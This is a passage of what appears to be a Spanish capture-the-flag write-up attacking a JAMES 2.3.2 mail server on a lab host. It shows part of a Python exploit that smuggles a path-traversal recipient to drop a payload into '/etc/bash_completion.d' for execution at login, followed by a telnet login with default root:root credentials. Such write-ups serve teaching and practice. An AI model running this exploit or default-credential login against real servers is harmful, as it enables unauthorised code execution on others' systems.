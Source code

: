 ```python
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."

```

Nos conectamos al servidor por el puerto 4555 con las credenciales *root : root*.

```bash
❯ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```
